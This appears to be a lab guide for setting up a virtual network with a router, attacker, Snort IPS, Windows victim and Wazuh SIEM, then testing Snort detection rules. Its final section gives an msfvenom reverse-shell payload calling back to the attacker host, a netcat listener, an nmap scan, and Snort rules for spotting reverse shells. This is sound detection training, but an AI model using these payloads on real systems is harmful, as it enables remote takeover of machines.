

## Information about machines in the model

| Machine | Interface | Network | IP Address |
|-----|-----------|------|------------|
| **Router** | eth0 | NAT | 192.168.100.131 |
| | eth1 | VMnet2 (Host-Only) | 10.81.1.1 |
| | eth2 | VMnet3 (Host-Only) | 172.16.5.1 |
| **Attacker** | eth0 | VMnet2 (Host-Only) | 10.81.1.128 |
| **Snort** | eth0 | NAT (optional) | 192.168.100.129 |
| | eth1 | VMnet3 (Host-Only) | (no static IP) |
| | eth2 | VMnet4 (Host-Only) | 172.16.5.20 |
| **Victim** | eth0 | VMnet4 (Host-Only) | 172.16.5.200 |
| | eth1 | NAT (optional) | 192.168.100.132 |
| **Wazuh-Server** | eth0 | NAT (optional) | 192.168.100.130 |
| | eth1 | VMnet4 (Host-Only) | 172.16.5.10 |


## 1. VMnet Configuration


## 2. Configuring IP addresses for interfaces

### Router

```bash
sudo nano /etc/netplan/*.yaml
```

Configuration content:
```yaml
network:
  version: 2
  renderer: networkd
  ethernets:
    eth0:
      dhcp4: true

    eth1:
      dhcp4: no
      addresses:
        - 10.81.1.1/24
      nameservers:
        addresses:
          - 10.81.1.1
          - 8.8.8.8

    eth2:
      dhcp4: no
      addresses:
        - 172.16.5.1/24
      nameservers:
        addresses:
          - 172.16.5.1
          - 8.8.8.8
```

Apply configuration:
```bash
sudo netplan apply
```

Check configuration:

```bash
vagrant@Router:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:36:2d:1f brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    altname ens192
    inet 192.168.100.131/24 metric 100 brd 192.168.100.255 scope global dynamic eth0
       valid_lft 1746sec preferred_lft 1746sec
    inet6 fe80::20c:29ff:fe36:2d1f/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:36:2d:29 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    altname ens33
    inet 10.81.1.1/24 brd 10.81.1.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe36:2d29/64 scope link
       valid_lft forever preferred_lft forever
4: eth2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:36:2d:33 brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    altname ens34
    inet 172.16.5.1/24 brd 172.16.5.255 scope global eth2
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe36:2d33/64 scope link
       valid_lft forever preferred_lft forever
```

### Attacker
```bash
┌──(vagrant㉿Attacker)-[~/Desktop]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:4c:60:a5 brd ff:ff:ff:ff:ff:ff
    inet 10.81.1.128/24 brd 10.81.1.255 scope global dynamic noprefixroute eth0
       valid_lft 1772sec preferred_lft 1547sec
    inet6 fe80::cd6c:f1ea:f3c9:6c08/64 scope link 
       valid_lft forever preferred_lft forever

```

```bash
sudo ip route add default via 10.81.1.1
```
Check configuration:
```bash
┌──(vagrant㉿Attacker)-[~/Desktop]
└─$ ip route                                        
default via 10.81.1.1 dev eth0 
10.81.1.0/24 dev eth0 proto dhcp scope link src 10.81.1.128 metric 1002
```

### Snort
Enable Snort interfaces:
```bash
sudo ip link set ens33 up
sudo ip link set ens34 up
```

Note: Snort IDS/IPS is configured without static IP addresses on interfaces eth1 and eth2 to work in transparent bridge mode.
```bash
vagrant@Snort:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:27:a4:8c brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    altname ens192
    inet 192.168.100.129/24 metric 100 brd 192.168.100.255 scope global dynamic eth0
       valid_lft 1336sec preferred_lft 1336sec
    inet6 fe80::20c:29ff:fe27:a48c/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 00:0c:29:27:a4:96 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    altname ens33
4: eth2: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 00:0c:29:27:a4:a0 brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    altname ens34
```

### Victim



### Wazuh-Server
```bash
root@Wazuh-Server:/etc/netplan# nano 50-cloud-init.yaml
```
Configuration content:
```yaml
network:
  version: 2
  ethernets:
    ens33:
      dhcp4: no
      addresses:
        - 172.16.5.10/24
      nameservers:
        addresses:
          - 172.16.5.1
          - 8.8.8.8
#      routes:
#       - to: default
#          via: 172.16.5.1
```
Apply configuration:
```bash
sudo netplan apply
```
Check configuration:
```bash
vagrant@Wazuh-Server:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:53:ab:63 brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    altname ens192
    inet 192.168.100.130/24 metric 100 brd 192.168.100.255 scope global dynamic eth0
       valid_lft 1780sec preferred_lft 1780sec
    inet6 fe80::20c:29ff:fe53:ab63/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:53:ab:6d brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    altname ens33
    inet 172.16.5.10/24 brd 172.16.5.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe53:ab6d/64 scope link
       valid_lft forever preferred_lft forever
```
**Note:** The Wazuh-Server is configured with a static IP address on the `eth1` interface, which connects directly to the Victim machine and other internal systems in the LAN. The `eth0` interface (NAT) is only used for faster internet access and to allow external machines to access the Wazuh dashboard.

Therefore, after the server boots, since there is no default route set via `eth1`, you need to run the following command to add the default gateway:
```bash
sudo ip route add default via 172.16.5.1 dev eth1
```
This command adds a default route, telling the system to send all traffic destined outside the local network through the gateway `172.16.5.1` on interface `eth1`.


## 3. Configuring NAT outbound for Router

```bash
# Delete and reset all rules in filter and nat tables
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

# Set up IP Forwarding and Masquerade
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface eth1 -j ACCEPT

# Enable packet forwarding in kernel
echo 1 > /proc/sys/net/ipv4/ip_forward

# Apply configuration
service iptables restart
```
Check NAT configuration:

```bash
vagrant@Router:~$ sudo iptables -L -v -n
Chain INPUT (policy ACCEPT 24346 packets, 1616K bytes)
 pkts bytes target     prot opt in     out     source               destination

Chain FORWARD (policy ACCEPT 30868 packets, 60M bytes)
 pkts bytes target     prot opt in     out     source               destination
 1673  178K ACCEPT     0    --  eth1   *       0.0.0.0/0            0.0.0.0/0

Chain OUTPUT (policy ACCEPT 14637 packets, 1194K bytes)
 pkts bytes target     prot opt in     out     source               destination
vagrant@Router:~$ sudo iptables -t nat -L -v -n
Chain PREROUTING (policy ACCEPT 4691 packets, 353K bytes)
 pkts bytes target     prot opt in     out     source               destination

Chain INPUT (policy ACCEPT 3343 packets, 242K bytes)
 pkts bytes target     prot opt in     out     source               destination

Chain OUTPUT (policy ACCEPT 1697 packets, 133K bytes)
 pkts bytes target     prot opt in     out     source               destination

Chain POSTROUTING (policy ACCEPT 174 packets, 12363 bytes)
 pkts bytes target     prot opt in     out     source               destination
 2810  226K MASQUERADE  0    --  *      eth0    0.0.0.0/0            0.0.0.0/0
```
Test connection from Attacker:
```bash
──(vagrant㉿Attacker)-[~/Desktop]
└─$ traceroute google.com
traceroute to google.com (142.250.196.206), 30 hops max, 60 byte packets
 1  10.81.1.1 (10.81.1.1)  2.002 ms  1.898 ms  2.326 ms
 2  192.168.100.2 (192.168.100.2)  2.602 ms  2.506 ms  2.425 ms
```
## 4. Installing and configuring Snort
```bash
sudo apt update
sudo apt install snort
```

Address range for the local network is '172.16.5.0/24'

```bash
sudo snort --daq-list
sudo rm -rf /etc/snort/rules/*
sudo touch /etc/snort/rules/local.rules
```
Configure Snort:
```bash
sudo nano /etc/snort/local-sno.conf

config daq: afpacket
config daq_mode: inline

include /etc/snort/rules/local.rules
```

Check configuration:
```bash
sudo snort -T -c /etc/snort/local-snort.conf -Q -i ens33:ens34
```

Start Snort in IPS mode:
```bash
sudo snort -c /etc/snort/local-snort.conf -Q -i ens33:ens34
```

## 5. Configure Wazuh-Server

We will assign an IP address to the `ens34` interface of the Snort machine so it can send logs to the Wazuh-Server.

```bash
sudo nano /etc/netplan/50-cloud-init.yaml

network:
  version: 2
  ethernets:
    ens33:
      dhcp4: no
      addresses:
        - 172.16.5.10/24
      nameservers:
        addresses:
          - 172.16.5.1
          - 8.8.8.8
```

Install Wazuh agent in Snort:




Cau hinh lai wazuh-agent:
```bash
sudo nano /var/ossec/etc/ossec.conf
```
Find the following line:
```xml
<localfile>
  <log_format>snort</log_format>   <!-- dòng lỗi -->
  <location>/var/log/snort/alert</location>
</localfile>
```
Replace it with:
```xml
<localfile>
  <log_format>syslog</log_format>
  <location>/var/log/snort/alert</location>
</localfile>
``` 

Restart Wazuh agent:
```bash
sudo systemctl restart wazuh-agent
```

check status:
```bash
vagrant@Snort:~$ systemctl status wazuh-agent
● wazuh-agent.service - Wazuh agent
     Loaded: loaded (/usr/lib/systemd/system/wazuh-agent.service; enabled; preset: enabled)
     Active: active (running) since Wed 2025-05-21 03:59:28 UTC; 4min 1s ago
    Process: 3450 ExecStart=/usr/bin/env /var/ossec/bin/wazuh-control start (code=exited, status=0/SUCCESS)
      Tasks: 28 (limit: 2271)
     Memory: 19.1M (peak: 21.1M)
        CPU: 766ms
     CGroup: /system.slice/wazuh-agent.service
             ├─3473 /var/ossec/bin/wazuh-execd
             ├─3483 /var/ossec/bin/wazuh-agentd
             ├─3496 /var/ossec/bin/wazuh-syscheckd
             ├─3509 /var/ossec/bin/wazuh-logcollector
             └─3523 /var/ossec/bin/wazuh-modulesd

May 21 03:59:23 Snort systemd[1]: Starting wazuh-agent.service - Wazuh agent...
May 21 03:59:23 Snort env[3450]: Starting Wazuh v4.11.2...
May 21 03:59:24 Snort env[3450]: Started wazuh-execd...
May 21 03:59:25 Snort env[3450]: Started wazuh-agentd...
May 21 03:59:26 Snort env[3450]: Started wazuh-syscheckd...
May 21 03:59:26 Snort env[3450]: Started wazuh-logcollector...
May 21 03:59:26 Snort env[3450]: Started wazuh-modulesd...
May 21 03:59:28 Snort env[3450]: Completed.
May 21 03:59:28 Snort systemd[1]: Started wazuh-agent.service - Wazuh agent.
```

Install Wazuh-agent in Victim:







## **6. Check connection**

Configuration of the firewall on the Victim machine to allow ICMPv4 traffic:
```bash
New-NetFirewallRule -DisplayName "Allow ICMPv4-In" -Protocol ICMPv4 -IcmpType 8 -Direction Inbound -Action Allow
```

- Attacker can ping 2 interfaces of Router



- Attacker connects to network through router, ping the victim



- Victim can connect to the internet through Router


- Check log in Wazuh-Server


##

### Ping attack
rule Snort:
```bash
alert icmp any any -> any any (msg:"ICMP Ping Detected"; itype:8; dsize:0; sid:1000001; rev:1;)
```

check log in Wazuh-Server:


### Reverse shell attack

In Snort, we will create a rule to detect reverse shell attacks. The rule will look for specific patterns in the traffic that indicate a reverse shell connection.
```bash
alert tcp any any -> any any (msg:"Netcat reverse shell"; content:"/bin/sh"; sid:100001; rev:1;)

alert tcp any any -> any any (msg:"Possible Reverse Shell - Windows CMD Banner"; content:"Microsoft Windows"; sid:1001001; rev:1;)
```

To simulate a reverse shell attack, we will use `msfvenom` to create a payload that will connect back to the Attacker machine. The steps are as follows:

1. Create a reverse shell payload using msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.81.1.128 LPORT=4444 -f exe -o reverse_shell.exe
```
2. Transfer the payload to the Victim machine using a file transfer method (e.g., SCP, FTP, or a web server).

3. In attacker machine, start a listener 
```bash
nc -lvnp 4444
```

4. Execute the payload on the Victim machine:
```bash
.\reverse_shell.exe
```

Check the connection in the Attacker machine:


Check the log in Wazuh-Server:


### Port scanning attack
In Snort, we will create a rule to detect port scanning attacks. The rule will look for patterns in the traffic that indicate a port scan.

```bash
alert tcp any any -> any any (msg:"Port Scan Detected"; flags:S; threshold:type threshold, track by_src, count 10, seconds 1; sid:100002; rev:1;)
```
To simulate a port scanning attack, we will use `nmap` to scan the Victim machine for open ports. The steps are as follows:
1. In the Attacker machine, run the following command to scan the Victim machine:
```bash
nmap -sS -p- 172.16.5.200
```
2. Check the log in Wazuh-Server:



